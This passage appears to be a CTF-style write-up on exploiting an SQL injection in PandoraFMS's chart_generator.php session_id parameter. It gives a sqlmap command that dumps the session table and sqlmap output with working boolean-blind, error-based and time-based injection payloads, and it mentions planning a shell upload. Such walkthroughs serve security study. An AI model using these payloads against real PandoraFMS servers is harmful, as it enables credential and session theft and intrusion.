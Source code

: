Which is vulnerable to various attacks as per [this](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/) blog 

### Exploiting PandoraFMS:

As per video listed on blog, if we can become admin we can upload our shell on server. And there is a sql injection vulnerability which can be used to do so.

In this version of PandoraFMS they uses `get_parameter()` as custom function to handle user input and sanitize it. But in `/include/chart_generator.php` file they don't do so. They uses `$_REQUEST[]` to get value of `session_id` paramater and later concatenate it in a `WHERE` clause of SQL QUERY. TO check for authentication.

`$user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']])`.

We can inject sql in this statement. Let's test with inserting a single quote, it errors out.

![2022-05-18_23-25](https://user-images.githubusercontent.com/79413473/169110388-9e7cb6c5-882b-46c0-a572-e2c0505cbdc2.png)

using sqlmap we can dump whole `pandora` database specifically `pandora` table to get any usernames & password. 

```
$ sqlmap -u http://127.0.0.1:8084/pandora_console/include/chart_generator.php?session_id=1* --current-user --threads=10 --batch -D pandora -T tsessions_php --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:39:01 /2022-05-19/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[14:39:01] [INFO] resuming back-end DBMS 'mysql' 
[14:39:01] [INFO] testing connection to the target URL
[14:39:02] [WARNING] potential permission problems detected ('Access denied')
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=gung49f0cl7...s3ub78j2h2'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: http://127.0.0.1:8084/pandora_console/include/chart_generator.php?session_id=1' RLIKE (SELECT (CASE WHEN (8507=8507) THEN 1 ELSE 0x28 END))-- tbtS

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://127.0.0.1:8084/pandora_console/include/chart_generator.php?session_id=1' OR (SELECT 8384 FROM(SELECT COUNT(*),CONCAT(0x71626b6271,(SELECT (ELT(8384=8384,1))),0x7178717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- duWE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://127.0.0.1:8084/pandora_console/include/chart_generator.php?session_id=1' AND (SELECT 2692 FROM (SELECT(SLEEP(5)))zYSE)-- YyOm
---
[14:39:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:39:02] [INFO] fetching current user
```